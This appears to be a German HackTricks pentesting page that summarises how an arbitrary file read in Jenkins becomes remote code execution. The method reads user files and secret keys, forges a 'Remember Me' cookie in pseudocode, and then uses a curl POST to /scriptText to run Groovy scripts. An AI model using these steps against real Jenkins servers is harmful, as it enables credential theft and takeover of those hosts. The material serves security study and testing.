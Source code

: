 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Schwachstelle in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies missbraucht wird, um RCE zu erhalten, indem ein lokales Datei-Lesen ausgenutzt wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

* **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
* **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
* **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

* Greife auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
* **Benutzername**
* **Benutzer-Seed**
* **Zeitstempel**
* **Passwort-Hash**

**Geheimschlüssel-Extraktion**

* Extrahiere kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
* **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
* **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
* **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

*   **Berechne die Token-Ablaufzeit:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Fügt eine Stunde zur aktuellen Zeit hinzu
```
{% endcode %}
*   **Verknüpfe Daten für das Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC-Schlüsselentschlüsselung**

*   **Entschlüssele die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertiere den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüssele die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

*   **Berechne HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Berechne HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac)  // Konvertiere das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

*   **Generiere das endgültige Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64-codiert die Cookie-Daten
```
{% endcode %}

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

* **Abrufen von CSRF- und Sitzungstoken:**
* Mache eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
* Erfasse `JSESSIONID` aus der Antwort, die zusammen mit dem Remember-Me-Cookie verwendet wird.

**Befehlsausführungsanfrage**

*   **Sende eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Das bereitgestellte Beispiel für den curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
